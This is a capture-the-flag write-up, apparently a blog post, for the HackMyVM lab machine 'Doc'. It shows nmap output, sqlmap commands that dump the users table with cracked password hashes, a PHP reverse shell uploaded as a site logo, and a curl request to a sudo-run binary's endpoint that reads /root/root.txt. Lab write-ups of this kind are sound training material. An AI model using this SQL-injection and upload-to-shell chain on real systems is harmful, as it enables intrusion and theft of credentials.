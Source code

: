 ```yaml
---
layout: post
author: kohaku
title:  "Doc"
date:   2021-12-31 09:45:48 AM -03
category: HackMyVM
---
```


[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Doc)


# Enumeration

{% highlight bash %}
# Nmap 7.92 scan initiated Tue Dec 28 13:14:55 2021 as: nmap -sC -sV -v -oN nmap 192.168.0.166
Nmap scan report for 192.168.0.166
Host is up (0.017s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0
|_http-title: Online Traffic Offense Management System - PHP
|_http-server-header: nginx/1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec 28 13:15:02 2021 -- 1 IP address (1 host up) scanned in 6.97 seconds
{% endhighlight  %}

# Port 80

We need to add `doc.hmv` to our `/etc/hosts` file

## /admin/login.php

![Untitled](/images/doc/burpsuite.png)

Use the option “copy to file” and use this file on `SQLmap` 

{% highlight bash %}
sqlmap -r req.txt --dump --dbs
{% endhighlight  %}

{% highlight bash %}
[13:58:46] [INFO] retrieved: Admin
[13:59:01] [INFO] retrieved: 0192023a7bbd73250516f069df18b500
[14:00:42] [INFO] retrieved: 1
[14:00:44] [INFO] retrieved: adminyo
[14:01:07] [INFO] retrieved: uploads/1629336240_avatar.jpg
[14:02:47] [INFO] retrieved: 2021-08-19 09:24:25
[14:03:57] [INFO] retrieved:  
[14:04:04] [INFO] retrieved: John
[14:04:21] [INFO] retrieved: 9
[14:04:24] [INFO] retrieved:  
[14:04:30] [INFO] retrieved: Smith
[14:04:49] [INFO] retrieved: 1254737c076cf867dc53d60a0364f38e
{% endhighlight  %}

{% highlight bash %}
sqlmap -r req.txt -D doc -T users --dump --dbms=mysql
{% endhighlight  %}

{% highlight bash %}
Admin    | 0192023a7bbd73250516f069df18b500 (admin123)  | adminyo  | Adminstrator
Smith    | 1254737c076cf867dc53d60a0364f38e (jsmith123) | jsmith   | John
{% endhighlight  %}

Log on /admin/login.php with `adminyo | admin123`

## Reverse shell

- Go to settings
- Change the `System logo` to be a php reverse shell

# User

{% highlight bash %}
/var/www/html/traffic_offense/initialize.php
if(!defined('DB_USERNAME')) define('DB_USERNAME',"bella");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"be114yTU");
{% endhighlight  %}

# Root

{% highlight bash %}
sudo -l

User bella may run the following commands on doc:
    (ALL : ALL) NOPASSWD: /usr/bin/doc
{% endhighlight  %}

Start the binary with sudo and open another reverse shell

Use curl on `getfile` directory with `key` parameter. We can access every file on the box

{% highlight bash %}
curl localhost:7890/getfile?key=/root/root.txt
{% endhighlight  %}